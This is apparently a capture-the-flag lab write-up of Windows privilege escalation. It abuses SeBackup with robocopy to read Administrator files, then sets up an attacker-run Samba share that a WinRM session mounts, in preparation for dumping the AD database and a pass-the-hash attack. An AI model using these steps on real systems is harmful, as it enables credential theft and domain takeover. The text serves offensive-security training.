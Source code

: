 
# Privilege Escalation
## Enumeration

We can abuse the SeBackup privilege in order to retrieve files from the Administrator Desktop using robocopy. Using robocopy, we are able to retrieve a notes.txt but are denied access on root.txt.

```powershell
robocopy /b C:\Users\Administrator\Desktop\ C:\
```

## Exploitation

### Dumping Hashes with WBAdmin
So we need to get into the Administrator context. On way to do this is to abuse SeBackup and SeRestore privileges in order to dump the AD database. 

Then, we can use the administrator NTLM hash in a PtH (Pass the Hash) attack to get a shell as them. 

First we need to install and configure a samba server with authentication.

Modify the contents of `/etc/samba/smb.conf` to the following:

```powershell
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
interfaces = tun0
smb ports = 445
[smb]
comment = Samba
path = /tmp/
guest ok = yes
read only = no
browsable = yes
force user = smbuser
```

Create a new user that matches the user in the force user parameter.
```powershell
adduser smbuser
```

Next, create a password for our newly created user.
```powershell
smbpasswd -a smbuser
```

Then start the SMB demon with service smbd restart . In our Win-Rm session we can mount the share:
```powershell
net use k: \\10.10.14.3\smb /user:smbuser smbpass
```
